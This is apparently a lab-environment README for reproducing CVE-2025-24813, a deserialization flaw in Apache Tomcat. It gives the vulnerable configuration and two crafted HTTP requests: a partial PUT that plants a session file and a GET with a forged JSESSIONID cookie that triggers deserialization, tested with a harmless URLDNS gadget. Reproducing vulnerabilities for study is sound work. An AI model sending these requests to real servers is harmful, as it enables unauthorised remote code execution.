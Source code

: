 # Tomcat Session Deserialization Remote Code Execution (CVE-2025-24813)

[中文版本(Chinese version)](README.zh-cn.md)

Apache Tomcat is a widely used open-source implementation of the Java Servlet, JavaServer Pages, Java Expression Language, and WebSocket technologies.

A deserialization vulnerability was found in Apache Tomcat from 11.0.0-M1 through 11.0.2, from 10.1.0-M1 through 10.1.34, from 9.0.0.M1 through 9.0.98. It occurs when Tomcat is configured with both writable DefaultServlet (readonly=false) and file-based session persistence. The combination allows attackers to write arbitrary files to the server and trigger deserialization of these files by manipulating the JSESSIONID cookie, ultimately leading to remote code execution.

- <https://lists.apache.org/thread/j5fkjv2k477os90nczf2v9l61fb0kkgq>
- <https://github.com/charis3306/CVE-2025-24813>
- <https://forum.butian.net/article/674>

## Environment Setup

Execute the following commands to start a vulnerable Tomcat 9.0.97 server:

```
docker compose build
docker compose up -d
```

After the server starts, you can access the Tomcat example page by visiting `http://your-ip:8080`.

## Vulnerability Reproduction

The vulnerability exists due to two key misconfigurations in Tomcat. First, the DefaultServlet is configured with readonly=false, allowing file uploads:

```xml
<servlet>
    <servlet-name>default</servlet-name>
    <servlet-class>org.apache.catalina.servlets.DefaultServlet</servlet-class>
    <init-param>
        <param-name>debug</param-name>
        <param-value>0</param-value>
    </init-param>
    <init-param>
        <param-name>listings</param-name>
        <param-value>false</param-value>
    </init-param>
    <init-param>
        <param-name>readonly</param-name>
        <param-value>false</param-value>
    </init-param>
    <load-on-startup>1</load-on-startup>
</servlet>
```

Second, Tomcat is configured to use file-based session persistence.

```xml
<Manager className="org.apache.catalina.session.PersistentManager">
    <Store className="org.apache.catalina.session.FileStore"/>
</Manager>
```

Both configurations use the same default storage path: `$CATALINA_BASE/work/Catalina/localhost/ROOT`.

When sending a partial PUT request, Tomcat converts path separators (/) in the file path to periods (.) and temporarily stores the file in the session storage directory. By crafting a specific request, we can write a malicious serialized object to this directory.

To exploit this vulnerability, first send a partial PUT request with the Content-Range header to write a file named `.deserialize.session` in the temporary directory (I use the URLDNS gadget for testing purposes):

```
PUT /deserialize/session HTTP/1.1
Host: your-ip:8080
Content-Length: 1234
Content-Range: bytes 0-5/10

deserialize content
```

![](1.png)

Then, send another request with a manipulated JSESSIONID cookie to trigger deserialization of the file:

```
GET / HTTP/1.1
Host: your-ip:8080
Cookie: JSESSIONID=.deserialize


```

![](2.png)

As you can see, the URLDNS gadget is successfully deserialized, and the DNS request is sent:

![](3.png)

In a real attack scenario, the "deserialize content" would be replaced with a malicious serialized Java object that can execute arbitrary code when deserialized by web applications.
